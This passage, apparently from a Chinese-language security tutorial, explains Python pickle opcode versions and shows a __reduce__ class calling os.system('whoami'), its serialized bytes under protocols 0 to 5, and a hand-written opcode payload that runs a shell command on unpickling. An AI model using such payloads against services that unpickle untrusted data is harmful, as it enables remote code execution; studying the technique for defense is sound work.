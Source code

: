 上文谈到了`opcode`是有多个版本的, 在进行序列化时可以通过`protocol=num`来选择`opcode`的版本, 指定的版本必须小于等于`5`.

```python
import os
import pickle

class Demo():
    def __init__(self, name='h3rmesk1t'):
        self.name = name
    
    def __reduce__(self):
        return (os.system, ('whoami',))


demo = Demo()
for i in range(6):
    print('[+] pickle v{}: {}'.format(str(i), pickle.dumps(demo, protocol=i)))
```

```python
[+] pickle v0: b'cposix\nsystem\np0\n(Vwhoami\np1\ntp2\nRp3\n.'
[+] pickle v1: b'cposix\nsystem\nq\x00(X\x06\x00\x00\x00whoamiq\x01tq\x02Rq\x03.'
[+] pickle v2: b'\x80\x02cposix\nsystem\nq\x00X\x06\x00\x00\x00whoamiq\x01\x85q\x02Rq\x03.'
[+] pickle v3: b'\x80\x03cposix\nsystem\nq\x00X\x06\x00\x00\x00whoamiq\x01\x85q\x02Rq\x03.'
[+] pickle v4: b'\x80\x04\x95!\x00\x00\x00\x00\x00\x00\x00\x8c\x05posix\x94\x8c\x06system\x94\x93\x94\x8c\x06whoami\x94\x85\x94R\x94.'
[+] pickle v5: b'\x80\x05\x95!\x00\x00\x00\x00\x00\x00\x00\x8c\x05posix\x94\x8c\x06system\x94\x93\x94\x8c\x06whoami\x94\x85\x94R\x94.'
```

<div align=center><img src="./images/3.png"></div>

基本模式:

```python
c<module>
<callable>
(<args>
tR.
```

这里用一段简短的字节码来演示利用过程:

```python
cos
system
(S'whoami'
tR.
```
